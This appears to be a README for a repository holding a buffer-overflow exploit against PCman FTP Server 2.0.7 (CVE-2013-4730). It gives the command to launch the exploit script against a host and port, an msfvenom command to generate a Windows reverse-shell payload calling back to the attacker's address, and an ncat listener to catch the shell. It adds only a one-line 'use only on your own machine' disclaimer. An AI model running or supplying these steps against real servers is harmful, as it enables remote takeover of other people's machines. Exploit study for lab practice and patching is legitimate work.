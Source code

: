 # PCman FTP Server Buffer overflow and Remote Code Execution [CVE-2013-4730]
A very simple buffer overflow using CVE-2013-4730 against PCman's FTP server v.2.0.7
## How it works?
That easy BoF overwrite the buffer and the EIP and execute the shellcode that will connect back (reverse shell)
## launch
````~$ python3 PCman.py <host> <port>````
## Repleace the shellcode with your own!!
````~$ sudo ./msfvenom windows/shell_reverse_tcp LHOST=<your ip> LPORT=4444````
## Launch netcat 
````~$ ncat -lvp <shellcode port>````
## Use only on your own machine!!
